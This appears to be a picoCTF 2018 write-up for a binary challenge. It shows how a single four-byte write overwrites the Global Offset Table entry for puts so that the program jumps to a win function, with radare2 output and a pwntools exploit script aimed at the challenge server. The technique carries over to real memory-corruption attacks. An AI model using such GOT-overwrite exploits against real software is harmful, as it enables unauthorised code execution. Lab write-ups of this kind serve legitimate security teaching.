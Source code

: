 ```c
  puts(buf);

  *(unsigned int *)address = value;

  puts("Okay, exiting now...\n");
  exit(1);
  
}
```

For this problem, we got one 4 byte write and we need to call the `win` function. As you can see, `puts` and `exit` are the only two functions called after the write, so we need to change the behavior of one of the two functions. Because aslr is enabled, we need to look for things that stay constant. One of these things is the [Global Offset Table](https://www.youtube.com/watch?v=kUk5pw4w0h4). The Global Offset Table is the thing that allows a c program to call libc libraries and serve as a jumping point for the program. If we modify this jumping point, we can make the program execute code at a different address than intended.

Our first step with be to extract the GOT address of the `puts` function and the address of the `win` function. This could be easily done with radare2:

```
$ r2 ./auth
[0x08048450]> aaaa
...
[0x08048450]> afl
...
0x080483d0    1 6            sym.imp.puts
...
0x0804854b    1 25           sym.win
...
[0x08048450]> pd 1 @ sym.imp.puts
/ (fcn) sym.imp.puts 6
|   sym.imp.puts (const char *s);
|           ; CALL XREFS from sym.main (0x80485aa, 0x80485f1, 0x804863c, 0x804865c)
\           0x080483d0      ff250ca00408   jmp dword [reloc.puts]      ; 0x804a00c
```

As you can see, the address for the `win` function is `0x0804854b` and the GOT address of the `puts` function is `0x804a00c`. Now with the two values, we can quickly write a script to retrieve the flag:

```python
from pwn import *

putsGOT = '0804a00c'
winAddr = '0804854b'

sh = remote('2018shell2.picoctf.com', 46464)

sh.sendlineafter('?\n', putsGOT)
sh.sendlineafter('\n', winAddr)

sh.interactive()
```
